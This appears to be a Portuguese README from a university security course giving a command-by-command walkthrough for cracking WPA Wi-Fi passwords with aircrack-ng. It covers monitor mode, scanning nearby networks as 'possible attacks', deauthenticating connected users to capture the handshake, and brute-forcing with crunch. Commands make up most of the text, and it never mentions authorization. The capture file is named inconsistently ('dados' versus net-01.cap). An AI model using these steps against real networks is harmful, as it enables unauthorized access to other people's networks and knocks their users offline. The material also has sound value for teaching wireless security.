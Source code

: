 <h1>Prática Ubuntu</h1>
<p>
Instale o aircrack-ng:
</p>

<p>
<pre><code>sudo apt-get update
sudo apt-get install aircrack-ng
</code></pre>
</p>

<p>
Verificar o nome da sua interface Wi-FI:
</p>

<p>
<pre><code>iwconfig
</code></pre>
</p>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/iwconfig.png"/>

<p>
Após verificar o nome da interface, deve-se verificar se o Ubuntu está reconhecendo o driver da interface sem fio:
</p>

<p>
<pre><code>sudo airmon-ng
</code></pre>
</p>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/airmon-ng.png"/>

<p>
verificar se tem algum processo que pode acabar atrapalhando o processo de captura de pacotes:
</p>

<p>
<pre><code>sudo airmon-ng check kill
</code></pre>
</p>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/checkill.png"/>

<p>
Vamos colocar nossa placa de rede em modo monitor:
</p>

<p>
<pre><code>sudo airmon-ng start [nome_da_sua_interface_wireless]
iwconfig
</code></pre>
</p>

<p>
Quando a placa estiver pronta para monitorar, podemos ver quais são as redes disponíveis para nossos possíveis ataques.
</p>

<p>
<pre><code>sudo airodump-ng [nome_da_sua_interface_wireless]
</code></pre>

<p>
Após selecionar a rede alvo, utilizaremos algumas de suas informações. Você pode guardá-las em um bloco de notas. As informações são as seguintes:<br />
</p>
<ul>
<li><strong>BSSID:</strong> <em>Basic Service Set Identifier</em> se refere ao endereço MAC de um adaptador sem fio ou de um ponto de acesso.Sua função é identificar exclusivamente um ponto de acesso que enviará sinais pra transmissão da rede sem fio.</li>
<li><strong>CH:</strong> Canal na qual a rede está operando.</li>
<li><strong>ESSID:</strong> nome que é visível na rede.</li>
</ul>

<p>
Agora que temos a rede alvo, iremos monitorá-la usando algumas das informações adquiridas que guardamos em um bloco de notas anteriormente. É importante que pelo menos 300 pacotes de dados tenham passado pela rede para garantir que o <strong>WPA HANDSHAKE</strong> seja capturado.
<p>
<pre><code>sudo airodump-ng -c [canal_da_rede_alvo] --bssid [bssid_da_rede_alvo] -w dados [nome_da_sua_interface_wireless]
</code></pre>
</p>

<p>
Hora de capturar o tão esperado WPA HANDSHAKE. Para que seja capturado, é preciso que alguém se conecte à à rede. Há duas opções: você espera a oportunidade que algum usuário se conecte ou você pode desautenticar quem já está conectado e capturar o WPA HANDSHAKE logo que o usuário se reconectar. Usaremos a segunda opção!
<p>
<pre><code>sudo aireplay-ng -0 10 -a [bssid_da_rede_alvo] [nome_da_sua_interface_wireless]
</code></pre>
</p>

<p>
Verificar o <strong>WPA HANDSHAKE</strong> capturado no arquivo criado anteriormente na execução do comando de captura. No caso deste tutorial, o arquivo criado recebeu o nome “dados”. Dê o seguinte comando no seu diretório atual:
</p>
<pre><code>ls
sudo aircrack-ng net-01.cap
</code></pre>
</p>

<p>
Caso não já tenha instalado, será necessário a instalação do programa crunch:
</p>
<p>
<pre><code>sudo apt-get update
</code></pre>
</p>
<p>
<pre><code>sudo apt-get install crunch
</code></pre>
</p>

<p>
Hora de quebrar no Brute Force:
</p>
<p>
<pre><code>sudo crunch [min] [max] [padrão] | aircrack-ng [net-01.cap] -w - -e [essid_da_rede_alvo]
</code></pre>
</p>

<p>
Você também pode usar o seguinte comando, caso deseje começar a busca a partir de uma determinada combinação dentro padrão.
</p>
<p>
<pre><code>sudo crunch [min] [max] [padrão] -s [combinação] | aircrack-ng [net-01.cap] -w - -e [essid_da_rede_alvo]
</code></pre>
<p>
Ao final, temos de reativar o nosso network-manager pois ao usar o comando check kill ele o desativa.
</p>

<p>
<pre><code>sudo service network-manager start
</code></pre>
</p>
